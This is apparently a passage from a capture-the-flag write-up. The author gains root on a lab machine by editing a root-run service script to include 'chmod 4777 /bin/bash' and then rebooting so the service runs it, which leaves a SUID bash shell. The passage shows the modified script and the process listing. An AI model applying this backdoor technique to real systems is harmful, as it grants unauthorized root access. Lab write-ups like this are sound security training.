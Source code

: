 I try and modify the script to see if I can just change /bin/bash to full 4777 permissions:

```
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

chmod 4777 /bin/bash

while :
do
echo "Checking...";
sleep 1;
done
```

But looking at /bin/bash shows it wasn't updated:

```
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

I then read the script a little closer and the 2nd line says it's starting as a service, so it's not a simple cron job.

Checking `ps aux | grep check-system` shows us:

```
root       413  0.0  0.1   6728  3208 ?        Ss   19:54   0:01 /bin/bash /usr/bin/check-system
```

Ok, now it makes sense why tre can run /sbin/shutdown as root.

<br>

## Root

Shutting down the system should force the check-system service to load when the system comes back up, and it will have our malicious change in it causing /bin/bash to be SUID.

I reboot the system:

![](images/tre10.png)

And then logging back in shows /bin/bash is SUID allowing us to easily escalate over to root:
